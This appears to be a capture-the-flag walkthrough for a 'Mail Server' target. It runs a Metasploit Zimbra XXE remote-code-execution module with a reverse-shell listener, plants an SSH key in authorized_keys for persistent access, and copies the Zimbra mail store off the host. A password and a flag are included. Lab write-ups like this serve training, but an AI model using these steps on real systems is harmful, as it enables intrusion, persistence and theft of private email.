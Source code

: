 # Mail Server

1. Address: `mail.petromaz.ir`
2. Find Vuln: `https://www.exploit-db.com/exploits/46693`
3. Run Metasploit `msfconsole -q`
```
use exploit/linux/http/zimbra_xxe_rce
set RHOST mail.petromaz.ir
set RPORT 443

set LHOST <your-ip>
set LPORT 4747

# -j will run it as a JOB
run
```
> Attention: **Password: Zimbra2024**

4. Check SSH Keys (Create One, if needed)
```
cd ~/.ssh
ls -la
cat id_rsa.pub

# Create If You Don't Have one
ssh-keygen -t rsa
```
5. Set public Key: `echo "<your-pub-key>" > ~/.ssh/authorized_keys`
6. Ssh into Server: `ssh -i <private-key> zimbra@mail.petromaz.ir`
7. Get Flag: MAZAPA_aee82fac0c8fb5818b26db37a577027c
8. Download Zimbra Data
```
scp -r zimbra@mail.petromaz.ir:/opt/zimbra/store/0 ./08-store0
```
9. Check Emails and Decode Files: `https://www.freeformatter.com/base64-encoder.html`
10. Network Map: [🗂 Network Map](./09-258-3.xlsx)
